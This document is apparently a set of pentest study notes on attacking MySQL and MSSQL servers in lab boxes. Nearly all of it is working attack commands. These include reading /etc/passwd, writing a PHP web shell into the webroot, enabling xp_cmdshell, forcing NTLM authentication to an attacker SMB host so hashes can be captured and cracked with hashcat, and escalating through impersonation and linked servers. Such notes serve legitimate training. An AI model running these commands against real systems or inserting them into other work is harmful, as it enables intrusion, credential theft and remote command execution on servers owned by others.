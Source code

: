 ```yaml
---
title: "Attacking Common Services — SQL"
tags: [attacking-common-services, mssql, mysql, sql, enumeration, impersonation]
tools: [sqlcmd, mssqlclient, mssql-cli, sqsh, mysql, impacket, responder, hashcat]
---
```


# SQL — Notes

## Quick Connect Examples
```bash
# MySQL
mysql -u julio -p'Password123' -h 10.129.20.13

# MSSQL from Windows
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!'

# FreeTDS / sqsh (Linux)
sqsh -S 10.129.203.7 -U juli0 -P 'MyPassword!'

# Impacket mssqlclient
mssqlclient.py julio@10.129.203.7 -p 1433
```

---

## Common Enumeration Queries
```sql
# MySQL
SHOW DATABASES;
USE htbusers;
SHOW TABLES;
SELECT * FROM users;

# MSSQL
-- List databases (MSSQL)
SELECT name FROM master.dbo.sysdatabases;
-- Or
SELECT database_id, name FROM sys.databases;

-- Show tables in current DB
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE='BASE TABLE';

-- Dump table
SELECT * FROM dbo.users; -- watch out for large tables
```

Notes: always set a row limit when exploring unknown tables (TOP N or LIMIT) to avoid huge outputs.

---

## Read Local Files
```sql
-- MySQL: requires secure_file_priv to allow OUTFILE or LOAD_FILE
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php echo shell_exec($_GET["c"]);?>' INTO OUTFILE '/var/www/html/webshell.php';

-- MSSQL using OPENROWSET for file read (if enabled)
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents;
```
Notes: READ access to filesystem depends on DB service account privileges and server configuration.

---

## Command Execution
```sql
# MySQL
show variables like "secure_file_priv"; # Check if empty
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

# MSSQL
-- Basic xp_cmdshell usage (if enabled)
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
Caveat: enabling xp_cmdshell requires appropriate permission and is noisy — check logs and use only when permitted by scope.

---

## Capture Service Authentication (NTLM hashes)
- Use `xp_dirtree` / `xp_subdirs` to force MSSQL to authenticate to your SMB server and capture NetNTLM challenge/response.

Start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket)

```bash
sudo responder -I tun0

sudo impacket-smbserver share ./ -smb2support

# Crack it
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

```mssql
# XP_DIRTREE Hash Stealing
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

#XP_SUBDIRS Hash Stealing
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

Run `Responder` or `impacket-smbserver` to collect the hashes, then crack with `hashcat -m 5600`.

---

## Impersonation & Privilege Escalation (MSSQL)
- Check who can be impersonated:
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
```
- Impersonate a login (if allowed):
```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER; -- verify
REVERT; -- drop impersonation
```
- If linked servers exist, you can execute commands on the linked instance using `EXECUTE('...') AT [linked.server]` and enable `xp_cmdshell` there to run system commands remotely.

Example flow used in boxes:
```sql
-- Find linked servers
SELECT srvname, isremote FROM sysservers; -- isremote 1 = remote

-- Run a remote command via linked server
EXECUTE AS LOGIN = 'john';
EXECUTE('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
EXECUTE('xp_cmdshell ''type C:\\Users\\Administrator\\Desktop\\flag.txt''') AT [LOCAL.TEST.LINKED.SRV];
REVERT;
```

### Example - Impersonation

```sql
# Get users
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO

# Find remote server
SELECT srvname, isremote FROM sysservers
GO

# Impersonat
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO

# allow xp_cmdshell
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]

# Grab flag
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
```

---

## Practical Pentest Tips
- Always enumerate server-level permissions and linked servers early — they often lead to escalation paths.
- Use `TOP 100` / `LIMIT` when querying unknown tables.
- Be cautious with `OUTFILE` and `xp_cmdshell`; they are effective but noisy.
- If `xp_cmdshell` is not available, look for CLR assemblies, SQL Agent jobs, or backup file locations to pivot.
- Capture any DB service account context (e.g., NT SERVICE\MSSQLSERVER) and understand filesystem permissions associated with that account.

---

## Offensive Checklist
- [ ] Enumerate databases and tables (limit rows)
- [ ] Search for credential tables, config files, backup paths
- [ ] Attempt file reads (OPENROWSET / LOAD_FILE)
- [ ] Force authentication to attacker SMB to capture NetNTLM
- [ ] Look for IMPERSONATE permissions and linked servers
- [ ] Pivot to linked servers and attempt xp_cmdshell / file reads

---

## Vulnerabilities / Notes
- Common misconfigurations: enabled xp_cmdshell, writable webroot via OUTFILE, excessive IMPERSONATE grants, open linked servers.
- Defensive note: DB servers with high privileges and linked servers should be monitored for sp_configure and xp_cmdshell usage.
